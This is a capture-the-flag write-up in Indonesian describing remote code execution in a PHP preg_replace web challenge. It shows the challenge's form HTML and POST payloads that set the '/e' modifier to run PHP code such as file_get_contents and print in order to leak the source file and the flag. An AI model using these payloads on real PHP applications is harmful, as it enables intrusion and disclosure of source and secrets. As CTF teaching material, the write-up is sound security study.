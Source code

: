 Pertama kita disuguhkan sebuah Web Untuk Replacement String

![](/pcre/index.png)


Seperti itulah tampilanya. Ada mbak mbak cantik.

Pertama menurut clue, Bug ini terdapat pada versi `< 7 ` jadi pada versi `7` kebawah. Setelah browsing dan mendapat pencerahan pada atikel ini

https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace


Disitu kida mendapatkan RCE jika mengisi Mod FLag dengan `e` dan `replacement` berisi kode kita

Setelah melihat dengan view source beberapa source memungkinkan bisa dilakukanya RCE

```
 <form action="" method="post">
                <input type="text" name="search" placeholder="Search For Replace"><br>
                <select name="mod">
                        <option value="i">Caseless</option>
                        <option value="m">Multiline</option>
                        <option value="s">Dot All</option>
                        <option value="x">Extended</option>
                </select><br>
                <input type="text" name="replacement" placeholder="Replace With"><br>
                <input type="text" name="subject" placeholder="Subject"><br>
                <button type="submit" name="submit">replace</button>
        </form>
```

Pada select `mod` kita bisa menginspect element salah satu value menjadi `e` dan pada `replacement` kita bisa mengisi dengan PHP code.

Tapi kita TIDAK bisa memasukan shell function seperti `system,shell_exec,dll` oke, Berati kita hanya boleh melakukan `php code exec murni` jadi payload saya seperti ini.

```
search=asd&mod=e&replacement=file_get_contents%28%22index.php%22%29%3B&subject=asdf&submit=
```

Dan didapatkan source dari index dan berisi flag juga.

Kita juga dapat mengunakan banyak fungsi seperti

```
-show_source
-fopen
-print
```

Jika mengunakan payload ini kita harus bisa menebak dimana Flag didefine


```
$searc = "(.*)";
$replacement = 'print("\\1")';
$subject = '$flag';
```
 
 Dan masih banyak lagi payload payload lain yang bisa digunakan! Jika kalian ingin mencoba sendiri silahkan upload index.php pada local kalian dan pastikan versi php kalian 5.6 atau kurang
 
 Source Asli Dibuat oleh `Reyvand` dan diedit Oleh Penulis
 
 Nikko Enggaliano
